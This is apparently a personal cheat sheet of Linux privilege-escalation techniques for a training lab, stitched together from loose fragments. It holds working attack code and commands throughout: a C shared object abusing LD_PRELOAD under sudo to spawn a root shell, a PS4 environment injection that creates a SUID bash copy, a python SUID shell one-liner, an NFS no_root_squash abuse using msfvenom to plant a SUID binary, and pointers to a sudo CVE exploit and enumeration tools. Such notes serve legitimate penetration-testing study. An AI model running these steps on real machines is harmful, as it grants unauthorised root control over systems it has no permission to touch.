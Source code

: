 ###

###sudo -l
```
Linux VM

1. In command prompt type: sudo -l
2. From the output, notice that the LD_PRELOAD environment variable is intact.

Exploitation

1. Open a text editor and type:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

2. Save the file as x.c
3. In command prompt type:
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
4. In command prompt type:
sudo LD_PRELOAD=/tmp/x.so apache2
5. In command prompt type: id
```
```
sudo earlier than 1.8.26
Check *** pwfeedback https://github.com/saleemrashid/sudo-cve-2019-18634




history

find .

cat /etc/os-release
uname -a




```
```
https://www.hackingarticles.in/linux-privilege-escalation-automated-script/
https://github.com/belane/linux-soft-exploit-suggester
```
```
pspy
https://github.com/DominicBreuker/pspy

```
### SUID / SGID Executables - Abusing Shell Features (#2)
Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.
Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

/tmp/rootbash -p

---------------------------------------------
python -c 'import os;os.execl("/bin/sh","sh","-p")'
------------------------------------------------
Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.
Check the NFS share configuration on the Debian VM:

cat /etc/exports

Note that the /tmp share has root squashing disabled.
On your Kali box, switch to your root user if you are not already running as root:
sudo su

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs

Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

Still using Kali's root user, make the file executable and set the SUID permission:
chmod +xs /tmp/nfs/shell.elf

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:
/tmp/shell.elf



SMB:
https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
echo exit | smbclient -L \\\\[ip]
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.132.104
